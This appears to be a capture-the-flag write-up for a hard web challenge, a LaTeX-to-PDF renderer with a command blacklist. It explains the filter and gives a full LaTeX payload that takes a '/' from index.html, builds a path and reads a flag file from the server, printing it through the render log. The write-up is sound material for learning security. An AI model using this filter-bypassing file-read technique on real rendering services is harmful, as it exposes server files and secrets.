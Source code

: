 
- **Challenge Name:**  Latex
- **Category:** Web
- **Difficulty:** Hard
- **Writeup Author:** HanzalaAbbasi 
- **Challenge Author(s):** HanzalaAbbasi


## Description
Explore the maze of LaTeX's PDF making and HTML data pulling to find the flag

# LaTeX Renderer Exploitation Guide

## Introduction
The website appears to be a renderer for LaTeX code. Writing LaTeX and clicking "Generate PDF" gives a link to the rendered PDF. The output LOG of the LaTeX renderer will also be displayed.

![image](https://github.com/user-attachments/assets/8e88c666-a36a-4ddd-afd9-77e61bef6379)


## PDF Link
While copying and pasting the provided link into your browser may lead to a PDF document, it may not contain the information you're expecting.

![image](https://github.com/user-attachments/assets/968a6aa2-6d20-47ef-8da4-e42a8dbdb730)


## Finding the Flag
Looking at the source HTML indicates that we need to read the flag from a file found in `/home/Desktop/trustline/flag/flag.txt`.

![image](https://github.com/user-attachments/assets/f308e2f7-d6c8-474a-98c5-05e6e1a35c19)


## Blacklisted Characters Issue
I'm currently encountering an issue where certain characters are being masked, making it difficult to read the flag.

![image](https://github.com/user-attachments/assets/7e03a4e2-9bcc-46b9-b0bb-50ff8efd7356)

## Crafting LaTeX Code to Bypass Blacklisted Characters
Examining the backend code logic, specifically the highlighted section in blue, we can see that it uses a regular expression with `preg_match` to validate the `$CONTENT` variable. This validation checks for the presence of blacklisted commands such as "input", "include", "", "/", "write", "slash", or "^^". If any of these commands are found, the code outputs the message "BLACKLISTED commands used".

To create LaTeX code that bypasses blacklisted characters, it's crucial to have an in-depth understanding of LaTeX. This is because certain characters are blocked which are used to read the files, and without them, rendering a flag might not be possible.

![image](https://github.com/user-attachments/assets/80e01229-f32e-469f-a7ef-02149ac6ab97)

## LaTeX Code Snippet
The below LaTeX code snippet is crafted to interact with an HTML file (`index.html`), extracting a specific character from a designated line within the file. Subsequently, this character serves as a crucial component in constructing a file path leading to another file (`flag.txt`). Let's delve into the code:

### Document Class and Packages:

- **`\documentclass{minimal}`**: This declaration assigns the document class as "minimal," tailored to yield a concise output.
- **`\usepackage{xstring}`**: Importing the **`xstring`** package furnishes the script with functionalities for string manipulation.

### Defining Directory Components:

- **`\def\a{home}`**, **`\def\b{Desktop}`**, **`\def\c{trustline}`**, **`\def\d{flag}`**, **`\def\e{flag.txt}`**: These directives establish variables encapsulating segments of the file directory path leading to flag.txt.

### Reading HTML File:

- **`\newread\file`**: This command initializes a file reading operation.
- **`\immediate\openin\file=index.html`**: Opening index.html for reading.
- **`\immediate\read\file to\fileline`**: Each line of the file is read into the macro **`\fileline`**.
- The initial six **`\immediate\read\file to\fileline`** commands handle the first six lines of index.html.
- **`\StrMid{\fileline}{22}{22}[\s]`**: Extracting the 22 character from the sixth line of index.html, storing it in the macro **`\s`**.

The sequence unfolds as follows:

- The first **`\immediate\read\file to\fileline`** reads the first line.
- The second **`\immediate\read\file to\fileline`** reads the second line.
- The third **`\immediate\read\file to\fileline`** reads the third line.
- The fourth **`\immediate\read\file to\fileline`** reads the fourth line.
- The fifth  **`\immediate\read\file to\fileline`** reads the fifth line.
- The six  **`\immediate\read\file to\fileline`** reads the sixth line.
- Consequently, the **`\StrMid{\fileline}{22}{22}[\s]`** command targets the 22 character from the sixth line of the index.html file, which is "/". We can utilize this character to construct our path and **circumvent the blacklisted characters filter.**

![image](https://github.com/user-attachments/assets/a5743002-0922-4e8f-8b7d-66a176e7de27)


## Word Count Verification
The word count for the sixth line is shown below.


![image](https://github.com/user-attachments/assets/63e71437-aa67-4acf-96b8-f06ec79ea093)


```
\documentclass{minimal}
\usepackage{xstring}

\def\a{home}
\def\b{Desktop}
\def\c{trustline}
\def\d{flag}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{22}{22}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 

```

## Building File Path and Reading Content
Using the above LaTeX code will yield the flag.

![image](https://github.com/user-attachments/assets/f8a2ac1a-4d62-4572-96d9-e4e42572cb90)


## Verifying with Python Script
We can also run a Python script to verify that we have successfully obtained the flag through our LaTeX code.

![image](https://github.com/user-attachments/assets/a3f4fa2f-34c2-4138-9c7d-ee023de2f3f3)





## Flag
TRUSTLINE{YoU_HavE_SoLvED_LaTeX_HarD_ChAlleNGE_WeLl_DOne_Xd}
